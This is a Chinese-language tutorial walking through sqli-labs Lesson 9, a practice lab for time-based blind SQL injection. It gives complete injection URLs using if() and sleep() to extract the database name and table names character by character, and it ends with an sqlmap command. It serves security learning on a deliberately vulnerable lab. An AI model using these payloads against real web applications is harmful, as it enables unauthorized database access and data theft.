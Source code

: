 ```yaml
---
title: sqli-labs-lession 9 GET单引号基于时间盲注
date: 2018-09-26 18:57:13
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs-lession 9 GET单引号基于时间盲注 #
---

## 登录界面 ##

![1](/img/sql/Lesson-9/1.png)

## 手注 ##

### 时间盲注函数 ###

* sleep()函数
	
	sleep(n):静止n秒,n是个变量

* if(1,2,3)

	如果1为真,执行2,否则执行3

### 判断类型 ###

在这个页面的`?id=1`后写入任何数据都没有结果返回,永远都是`You are in...........`的界面。

利用if函数来判断类型。

先查看源码

![2](/img/sql/Lesson-9/2.png)

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`

注意到源码是单引号闭合的。并且无论数据库语句执行成功失败都不会返回信息。

可是如果我传入一个用if函数构造的语句

`1' and if(1,sleep(60),null)#`

SQL语句会变成

`$sql="SELECT * FROM users WHERE id='1' and if(1,sleep(60),null) #' LIMIT 0,1";`

如果被数据库成功解析,就会执行`sleep(60)`,页面就会转60s,即证明$id
被一个`''`包起来。

测试一下。

![3](/img/sql/Lesson-9/3.png)

可以发现左上角一直在转,果然是单引号闭合的时间盲注。

### 获取数据库 ####

#### 获取数据库长度 ####

![4](/img/sql/Lesson-9/4.png)

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(8=(length(database())),sleep(60),null)%23`

#### 获取数据库名 ####

猜第一个字符

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('s'=left(database(),1),sleep(60),null)%23`

![5](/img/sql/Lesson-9/5.png)

猜第二个

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('se'=left(database(),2),sleep(60),null)%23`

![6](/img/sql/Lesson-9/6.png)

中间省略了,可以用其他的方式,推荐二分法

最后猜解出数据库名

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if('security'=left(database(),8),sleep(60),null)%23`

![7](/img/sql/Lesson-9/7.png)

数据库名为`security`

### 获取表 ###

#### 表数目 ####

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(4=(select count(table_name) from information_schema.tables where table_schema='security'),sleep(60),null)%23`

![8](/img/sql/Lesson-9/8.png)

#### 表长度 ####

以获取第一张表为例(第一张表是emails,玩旧了都记住了):

又在一直转了,说明第一张表长度为6。

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(6=length((select table_name from information_schema.tables where table_schema='security' limit 0,1)),sleep(60),null)%23`

![9](/img/sql/Lesson-9/9.png)

#### 表名 ####

这里过一遍二分法吧,免得忘了。一般从ascii码95~123。

True表示页面加载,False表示不加载。用第4张表(其实我知道是users表)测试。

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(95<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

95:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(109<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

109:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(116<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

116:True

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(120<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

120:False

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(118<=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

118:False

`http://10.60.250.151/sqlilabs/Less-9/?id=1' and if(117=ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1)),sleep(60),null)%23`

117:True

117的ascii码为`u`,第4张表的第一个字符为`u`。

剩下的过程就不写了。都是相同的原里,把要查询的东西填到`if(1,2,3)`的1中就行了。

## SQLMAP ##

`sqlmap -u 10.60.250.151/sqlilabs/Less-9/?id=1 --technique T --dbs`

--technique T:表示测试时间延迟注入、

这种方式需要大量的时间

![10](/img/sql/Lesson-9/10.png)

![11](/img/sql/Lesson-9/11.png)

剩下的就不表了。